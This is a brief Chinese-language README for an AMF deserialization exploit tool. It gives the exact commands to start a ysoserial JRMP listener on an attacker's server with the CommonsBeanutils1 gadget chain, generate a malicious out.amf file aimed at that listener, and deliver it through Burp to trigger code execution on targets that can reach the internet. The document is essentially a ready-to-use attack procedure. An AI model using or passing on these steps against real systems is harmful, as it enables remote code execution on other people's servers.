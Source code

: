 # AMF_JRMP
改造一个基于jrmp的AMF反序列化利用工具 

只适用于出网的机器

将ysoserial放到服务器/vps中，先启动一个jrmp，利用链根据实际情况改
```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 CommonsBeanutils1 calc
```

然后本地运行这个AMFpoc_JRMP.jar
```bash
java -jar AMFpoc_JRMP.jar 起服务的ip 起服务的端口
```
比如这样
```bash
java -jar AMFpoc_JRMP.jar 114.114.114.114 1234
```
他会生成一个out.amf,使用burp右键选择pasted from file，选这个out.amf发送就可以触发evee

https://www.mi1k7ea.com/2019/12/07/Java-AMF3反序列化漏洞/
